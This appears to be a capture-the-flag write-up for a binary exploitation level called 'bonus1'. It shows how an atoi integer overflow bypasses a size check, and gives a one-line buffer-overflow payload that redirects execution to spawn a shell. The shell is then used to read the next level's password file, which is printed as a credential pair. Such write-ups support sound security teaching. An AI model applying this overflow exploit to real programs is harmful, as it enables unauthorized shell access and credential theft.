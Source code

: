 # Bonus1

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./bonus1 
  Segmentation fault (core dumped)
  $> ./bonus1 4
  Segmentation fault (core dumped)
  $> ./bonus1 4 2
```

> Seems like this program want us to input two arguments.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). This time we need to exploit the overflow property of `atoi()` to give us more bytes to copy with `memcpy()`. As seen in the analysis, the buffer has an offset of **56** bytes but we need to pass the check which need our input to be less than **10**. In order to do this, we need to find a negative number that by underflowing gives back a large enough positive number.

```C
#include <stdio.h>

int main(void) {
	int input = 0;

	for (int result = 0; result <= 0 || result > 60; input--) {
		result = input * 4;
	}

	printf("input = %d\n", input);
}
```

> This little program outputs us a potential input which is **-1073741809** which gives us **60** after the multiplication and underflow (**56** offset bytes + **4** bytes for a potential address).

Now, all we have to do is to find an address (`0x08048482`) to re-route the program to spawn a shell since there is a built-in way to do so.

```shell
  $> ./bonus1 -1073741809 $(python -c "print '\x90' * 56 + '\x08\x04\x84\x82'[::-1]")
  $ cat /home/user/bonus2/.pass
  579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

So next user credentials pair is `bonus2:579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`.

Check [here](./source.c) for reproduction source-code of this binary.